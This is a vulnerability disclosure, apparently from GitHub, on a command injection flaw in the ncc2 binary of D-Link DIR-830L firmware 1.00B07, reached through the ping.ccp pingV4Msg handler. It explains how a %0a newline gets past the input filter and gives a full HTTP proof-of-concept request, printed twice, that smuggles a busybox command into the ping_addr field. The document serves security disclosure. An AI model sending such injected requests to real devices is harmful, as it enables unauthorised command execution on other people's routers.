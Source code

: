 # Summary
There is a command injection vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, which can lead to arbitrary command execution.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `pingV4Msg`, which is `sub_4A3768` decompiled by IDA and `ping.ccp`.

Notice: it also exists in **HotFix** version!

# Details
The same as `cancelPing`, `pingV4Msg` is also called in `callback_ccp_ping`:
![image](https://github.com/user-attachments/assets/b354f269-3626-4b16-ae04-716d88113520)

Use IDA to decompile `sub_4A3768`:
![image](https://github.com/user-attachments/assets/cec72a6c-8309-4e67-ae8f-2217d1e1eebc)

Line 24 use `snprintf` to concatenate `v8` into `v16`, and line 25 use `popen`.
If we can bypass
```
if ( v7 && hasInjectionString(v7) != 1 && (sub_4A3040(v8) || !sub_4A33CC(v8, v14)) && strcmp(v8, "localhost") )
```
we can inject our command.

Function `sub_4A3040`:
![image](https://github.com/user-attachments/assets/89d6a851-217d-41e4-8d11-2140a4090284)

We can use `%0a` to bypass `regcomp`.

PoC:
```
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=HIVZV0Zk1C

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 63



ccp_act=pingV4Msg&ping_addr=127.0.0.1%0abusybox >/www/poc3.html
```
![image](https://github.com/user-attachments/assets/a4de7616-57dc-4595-862c-4b0cfd726a8f)

After sending packet, visit `/poc3.html` to see the result:
![image](https://github.com/user-attachments/assets/8beb7944-4649-4673-ae15-3f005bb2fb16)

# PoC
(**Login** first to get your cookie)
```html
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=HIVZV0Zk1C

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 63



ccp_act=pingV4Msg&ping_addr=127.0.0.1%0abusybox >/www/poc3.html
```
![image](https://github.com/user-attachments/assets/a4de7616-57dc-4595-862c-4b0cfd726a8f)
![image](https://github.com/user-attachments/assets/8beb7944-4649-4673-ae15-3f005bb2fb16)

